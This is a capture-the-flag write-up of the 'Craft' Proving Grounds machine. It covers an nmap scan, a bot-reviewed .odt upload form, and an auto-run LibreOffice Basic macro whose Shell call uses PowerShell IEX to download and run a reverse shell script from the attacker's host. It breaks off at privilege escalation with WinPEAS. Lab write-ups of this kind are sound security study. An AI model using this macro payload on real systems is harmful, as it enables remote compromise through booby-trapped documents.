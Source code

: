 ### Craft Proving Grounds Practice

### Difficulty = Intermediate

### IP Address = 192.168.175.169

Nmap Scan

```
└─$ nmap -sCV -A 192.168.175.169 -p80 -oN nmapscan                     
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-23 23:35 WAT
Nmap scan report for 192.168.175.169
Host is up (0.21s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
|_http-title: Craft
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.55 seconds
```

From the scan we can tell that only one tcp port is open

I'll head over to see what it is
![image](https://user-images.githubusercontent.com/113513376/221046662-3d73f892-cb01-4e17-8966-59ce005fb08c.png)

It doesn't contain anything much looking below shows a file upload form
![image](https://user-images.githubusercontent.com/113513376/221056128-935d2864-241a-448a-9b18-1a4122b93bff.png)

Uploading any file shows that it only accepts a .odt file 
![image](https://user-images.githubusercontent.com/113513376/221056229-d2f6ed55-35af-41c1-8eb0-7cbf5839908a.png)

After trying to upload a fake .odt file shows that it will be viewed soon
![image](https://user-images.githubusercontent.com/113513376/221056321-609ab0eb-cb2d-4baf-a87c-34899df2962e.png)

So with this we know that we can upload a .odt file which is just like an excel spreadsheet

But lets say if we manage to even upload a .php file we won't be able to execute it cause its been viewed by a person (bot)

Now we can perform a macros attack

Which basically puts in a malicious content in the file then after it is being viewed the macros content will be executed

### Payload Creation 

Here's what i'll do 
![image](https://0xdf.gitlab.io/img/image-20191126164802663.png)

```
I’ll open Calc, and go to Tools –> Macros –> Organize Macros –> LibreOffice Basic:
```

In the dialog box that pops up, I’ll select the document I’m working in on the left side (Untitled 1) and click “New”. I’ll give the module a name (“evil”), and click Ok to be taken to the macro editor:
![image](https://user-images.githubusercontent.com/113513376/221057141-7fc7502d-b1de-44bf-8b28-656672c72fda.png)

OpenOffice macros use Basic, a similar but [slightly different](https://wiki.openoffice.org/wiki/Documentation/FAQ/Macros/Can_I_use_my_Microsoft_Office_macros%3F) language to the VBA that’s in MS macros. To run a command on a Windows host from LibreOffice Basic, I’ll need to put it into Shell() as a string. So I wrap my command in "". To nest quotes, I’ll use two double quotes (""). I’ll call Shell to execute some simple download and execute code:

```
REM  *****  BASIC  *****

Sub Main

    Shell("cmd /c powershell ""IEX(New-Object Net.Webclient).downloadString('http://192.168.45.5/Invoke-PowerShellTcp.ps1')""")
    
End Sub
```

#### AutoOpen

Now I need to make sure this macro is run when the document is opened. I'll close the macro editors, and back in the document, go to Tools –> Customize -> Events tab:
![image](https://user-images.githubusercontent.com/113513376/221057696-e6d15dd4-c16c-4427-9b8c-79b4bc4a60fb.png)

I'll select "Open Document" and click on the "Macro…" button. I'll navigte to select my macro:
![image](https://user-images.githubusercontent.com/113513376/221059441-f630cdc9-d34e-47af-8b55-4d03bc709e02.png)

When I hit "OK", I see it now in the list:
![image](https://user-images.githubusercontent.com/113513376/221059503-f810f247-f894-461d-9aa4-bde2e5a4805b.png)

I'll save my sheet as shell.ods, and exit LibreOffice.

Reference to this [0xdf](https://0xdf.gitlab.io/2020/02/01/htb-re.html)

Cool with this payload i'll set up a listener on port 1337 and a http server on port 80 hosting a powershell reverse shell

I will rename shell.ods file to shell.odt

After uploading the shell.odt file i get back a connection after few seconds
![image](https://user-images.githubusercontent.com/113513376/221061013-fe9ebccc-8cb5-4f1e-900f-c9a0e1f8e8de.png)

Lets escalate priv 🤓

Uploading WinPEAS.exe and running it 
![image](https://user-images.githubusercontent.com/113513376/221062028-7aa9a78d-e0cd-4e37-b4e1-b4daae4f7c2a.png)
![image](https://user-images.githubusercontent.com/113513376/221062284-aea7f49a-d6e3-4709-aaac-2fa25b8c2349.png)
![image](https://user-images.githubusercontent.com/113513376/221062753-559a4f6f-4ccd-4e27-89df-b1544b4ff805.png)

It shows that two printer services are running i'll get a shell via msf then run exploit suggester





